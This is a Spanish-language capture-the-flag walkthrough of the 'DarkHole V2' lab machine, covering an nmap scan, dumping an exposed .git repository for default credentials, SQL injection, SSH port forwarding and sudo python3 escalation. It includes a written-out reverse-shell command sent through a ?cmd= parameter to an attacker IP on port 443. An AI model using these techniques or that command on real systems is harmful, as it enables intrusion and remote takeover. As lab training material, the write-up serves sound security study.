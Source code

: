 

# PortScan
____

```
# Nmap 7.93 scan initiated Sat Nov 11 10:30:18 2023 as: nmap -sCV -p22,80 -oN targeted 192.168.204.160
Nmap scan report for 192.168.204.160
Host is up (0.00034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 57b1f564289891516d70766ea552435d (RSA)
|   256 cc64fd7cd85e488a289891b9e41e6da8 (ECDSA)
|_  256 9e7708a4529f338d9619ba757127bd60 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-git: 
|   192.168.204.160:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: i changed login.php file for more secure 
|_http-title: DarkHole V2
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 00:0C:29:DB:9D:4B (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov 11 10:30:25 2023 -- 1 IP address (1 host up) scanned in 7.00 seconds
```


Vemos qué está expuesto el repositorio **Git**

# WebSite
___


![[Pasted image 20231111125625.png]]


No vemos nada sospechoso de primera, así qué procedemos a obtener el repositorio **Git** qué nos reportó el **Nmap** en local, con la herramienta [Git-Dumper](https://github.com/arthaud/git-dumper) para obtener lo qué parece ser el código fuente & ver sí podemos aprovecharnos de algo.
```bash
 ./git_dumper.py http://192.168.204.160/.git ~/192.168.204.160
```

Teniendo así en local el repositorio .**GIT.**

![[Pasted image 20231111130205.png]]
Otra forma de obtener los recursos **.git** en local, es con "wget".
```bash
wget -r http://192.168.204.160/.git/
```

Sí leemos el "**COMMIT_EDITMSG**" vemos qué se hizo un commit con nombre "**i changed login.php file for more secure**", así que podríamos tratar de ver como era el **login.php** antes del commit, logrando así verlo como era antes.

1. Vemos los log's commits hechos.
```bash
git log
```
![[Pasted image 20231111131806.png]]
Este commit tiene mala apariencia, porque aparentemente agregaron el login.php con las credentials default.

2. Entramos al commit qué nos interesa.
```bash
git show a4d900a8d85e8938d3601f3cef113ee293028e10
```

![[Pasted image 20231111131937.png]]

Logrando ver así las credenciales default en texto claro.


Probamos loguearnos con estas credenciales en el sitio web.

![[Pasted image 20231111132127.png]]


# SQL Injection
____



![[Pasted image 20231111132136.png]]

Hemos entrado como el usuario **Jehad Alqurashi**, qué aparentemente es desarollador web.

Buscando vulnerabilidades o de qué podríamos aprovecharnos de primera no encontré nada, pero fijandome en la **URL** ví qué probablemente sea vulnerable a **Inyecciones SQL**, así qué empiezo probando con un **sleep**.
![[Pasted image 20231111132414.png]]

Logrando así que dure 5 segundos en responder, esto confirmándonos que esta página es vulnerable a **Inyecciones SQL**, así que podríamos intentar ver credenciales de las base de datos de la página web.

1. Identificamos el número de columnas
![[Pasted image 20231111132945.png]]

2. Vemos las bases de Datos existentes.
![[Pasted image 20231111133102.png]]

3. Ver tablas existente de la DB qué nos interesa.
![[Pasted image 20231111133205.png]]

4. Ver columnas de la tabla que nos interesa.
![[Pasted image 20231111133410.png]]

5. Ver contenido de las columnas qué nos interesan.
![[Pasted image 20231111133551.png]]

Obteniendo así lo qué parece ser credenciales para conectarnos a través de SSH.

![[Pasted image 20231111133724.png]]
___


# Escalada de Privilegios #1
____



Indagando, descubrimos qué el historial no tiene un enlace simbólico al **"/dev/null"**, por lo qué podríamos tratar de ver sí contiene algo de lo que podrimos aprovecharnos.

![[Pasted image 20231111134155.png]]

Encontramos qué local de la máquina por el puerto **:9999** sé está usando un código para mediante los parámetros "**?cmd=**'" indicar qué comandos se quieren ejecutar.

De primera pienso que eso lo ejecuta el mismo usuario del sistema "**jehad**", pero para corroborarlo hago un **Remote Port Forwarding** para que el **:9999** de la máquina víctima sea el **:9999** de mi máquina, esto a través de SSH tal que así.
```bash
ssh jehad@192.168.204.160 -L 9999:127.0.0.1:9999
```

De forma qué entro al 9999 en local, y utilizó los parámetros que nos chivó el historial de Bash, ejecutando un "whoami"
![[Pasted image 20231111141545.png]]

Para mi sorpresa, el **RCE** lo ejecuta el usuario "**losy**", por lo qué se me ocurre migrar a este usuario mediante una **Reverse Shell,** esto a ver sí encontramos otra forma de migrar a ROOT.

```bash
http://localhost:9999/?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.204.130/443 0>%261"
```

![[Pasted image 20231111141841.png]]

Ahora quedaría darle **Tratamiento a la TTY**, sino sabemos como te recomiendo [((CLICKEAR AQUÍ))](https://4uli.github.io/tratamiento-tty/)

________

# Escalada de Privilegios #2
____


Estando como "**Losy**", también podemos ver el historial de Bash, así qué echándole un ojo encontraríamos las credenciales de la misma **Losy**.

![[Pasted image 20231111142208.png]]

Por lo qué se me ocurre ver los permisos **SUDOERS**.

![[Pasted image 20231111142324.png]]

Encontraríamos que tenemos permisos **SUDOERS** como ROOT para python3, por lo qué podríamos aprovecharnos de esto para escalar nuestro privilegio.

1. Abrimos Python3 como Root.
```bash
sudo /usr/bin/python3
```

2. Colocamos las siguientes líneas:
![[Pasted image 20231111142707.png]]